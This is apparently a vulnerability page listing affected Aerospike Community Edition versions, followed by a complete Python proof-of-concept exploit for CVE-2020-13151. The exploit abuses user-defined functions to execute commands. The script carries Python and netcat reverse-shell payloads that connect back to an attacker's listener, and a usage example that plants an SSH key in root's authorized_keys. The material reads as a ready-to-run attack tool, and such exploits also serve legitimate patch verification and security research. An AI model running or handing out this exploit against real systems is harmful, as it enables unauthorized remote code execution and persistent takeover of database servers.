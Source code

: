 漏洞影響
--------

Aerospike 社區版 \\\<5.1.0.3

POC
---

    #!/usr/bin/env python3
    import argparse
    import random
    import os, sys
    from time import sleep
    import string
    # requires aerospike package from pip
    import aerospike
    # if this isn't installing, make sure os dependencies are met
    # sudo apt-get install python-dev
    # sudo apt-get install libssl-dev
    # sudo apt-get install python-pip
    # sudo apt-get install zlib1g-dev
    PYTHONSHELL = """python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{ip}",{port}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'&"""
    NETCATSHELL = 'rm /tmp/ft;mkfifo /tmp/ft;cat /tmp/ft|/bin/sh -i 2>&1|nc {ip} {port} >/tmp/ft&'
    def _get_client(cfg):
        try:
            return aerospike.client({
                'hosts': [(cfg.ahost, cfg.aport)],
                 'policies': {'timeout': 8000}}).connect()
        except Exception as e:
            print(f"unable to access cluster @ {cfg.ahost}:{cfg.aport}\n{e.msg}")
    def _send(client, cfg, _cmd):
        try:
            print(client.apply((cfg.namespace, cfg.setname, cfg.dummystring ), 'poc', 'runCMD', [_cmd]))
        except Exception as e:
            print(f"[-] UDF execution returned {e.msg}")
    def _register_udf(client, cfg):
        try:
            client.udf_put(cfg.udfpath)
        except Exception as e:
            print(f"[-] whoops, couldn't register the udf {cfg.udfpath}")
            raise e
    def _random_string(l):
        return ''.join([random.choice(string.ascii_lowercase + string.ascii_uppercase) for i in range(l)])
    def _populate_table(client, cfg):
        ns = cfg.namespace
        setname = cfg.setname
        print(f"[+] writing to {ns}.{setname}")
        try:
            rec = cfg.dummystring
            client.put((ns, setname, rec), {'pk':cfg.dummystring})
            print(f"[+] wrote {rec}")
        except Exception as e:
            print(f"[-] unable to write record: {e.msg}")
            try:
                if e.msg.startswith('Invalid namespace'):
                    print("Valid namespaces: ")
                    for n in _info_parse("namespaces", client).split(";"):
                        print(n.strip())
            except:
                pass
            sys.exit(13)
    def _info_parse(k, client):
        try:
            return [i[1] for i in client.info_all(k).values() ][0]
        except Exception as e:
            print(f"error retrieving information: {e.msg}")
            return []
    def _is_vuln(_mj, _mi, _pt, _bd):
        fixed = [5,1,0,3]
        found = [_mj, _mi, _pt, _bd]
        if fixed == found:
            return False
        for ix, val in enumerate(found):
            if val < fixed[ix]:
                return True
            elif val == fixed[ix]:
                pass
            else:
                return False
    def _version_check(client):
        print("[+] aerospike build info: ", end="")
        try:
            _ver = _info_parse("build", client)
            print(_ver)
            mj, mi, pt, bd = [int(i) for i in _ver.split('.')]
            if _is_vuln(mj, mi, pt, bd):
                print("[+] looks vulnerable")
                return
            else:
                print(f"[-] this instance is patched.")
                sys.exit(0)
        except Exception as e:
            print(f"[+] unable to interpret build number due to {e}")
            print("[+] continuing anyway... ")
    def _exploit(cfg):
        client = _get_client(cfg)
        if not client:
            return
        _version_check(client)
        print(f"[+] populating dummy table.")
        _populate_table(client, cfg)
        print(f"[+] registering udf")
        _register_udf(client, cfg)
        if cfg.pythonshell or cfg.netcatshell:
            sys.stdout.flush()
            print(f"[+] sending payload, make sure you have a listener on {cfg.lhost}:{cfg.lport}", end="")
            sys.stdout.flush()
            for i in range(4):
                print(".", end="")
                sys.stdout.flush()
                sleep(1)
            print(".")
            _send(client, cfg, PYTHONSHELL.format(ip=cfg.lhost,port=cfg.lport) if cfg.pythonshell else NETCATSHELL.format(ip=cfg.lhost,port=cfg.lport) )
        if cfg.cmd:
            print(f"[+] issuing command \"{cfg.cmd}\"")
            _send(client, cfg, cfg.cmd)
    if __name__ == '__main__':
        if len(sys.argv) == 1:
            print(f"[+] usage examples:\n{sys.argv[0]} --ahost 10.11.12.13 --pythonshell --lhost=10.0.0.1 --lport=8000")
            print("... or ... ")
            print(f"{sys.argv[0]} --ahost 10.11.12.13 --cmd 'echo MYPUBKEY > /root/.ssh/authorized_keys'")
            sys.exit(0)
        parser = argparse.ArgumentParser(description='Aerospike UDF Command Execution - CVE-2020-13151 - POC')
        parser.add_argument("--ahost", help="Aerospike host, default 127.0.0.1", default="127.0.0.1")
        parser.add_argument("--aport", help="Aerospike port, default 3000", default=3000, type=int)
        parser.add_argument("--namespace", help="Namespace in which to create the record set", default="test")
        parser.add_argument("--setname", help="Name of set to populate with dummy record(s), default is cve202013151", default=None)
        parser.add_argument('--dummystring', help="leave blank for a random value, can use a previously written key to target a specific cluster node", default=None)
        parser.add_argument("--pythonshell", help="attempt to use a python reverse shell (requires lhost and lport)", action="store_true")
        parser.add_argument("--netcatshell", help="attempt to use a netcat reverse shell (requires lhost and lport)", action="store_true")
        parser.add_argument("--lhost", help="host to use for reverse shell callback")
        parser.add_argument("--lport", help="port to use for reverse shell callback")
        parser.add_argument("--cmd", help="custom command to issue against the underlying host")
        parser.add_argument('--udfpath', help="where is the udf to distribute? defaults to `pwd`/poc.lua", default=None)
        cfg = parser.parse_args()
        if not cfg.setname:
            cfg.setname = 'cve202013151'
        if not cfg.dummystring:
            cfg.dummystring = _random_string(16)
        if not cfg.udfpath:
            cfg.udfpath = os.path.join(os.getcwd(), 'poc.lua')
        assert cfg.cmd or (cfg.lhost and cfg.lport and (cfg.pythonshell or cfg.netcatshell)), "Must specify a command, or a reverse shell + lhost + lport"
        if cfg.pythonshell or cfg.netcatshell:
            assert cfg.lhost and cfg.lport, "Must specify lhost and lport if using a reverse shell"
        _exploit(cfg)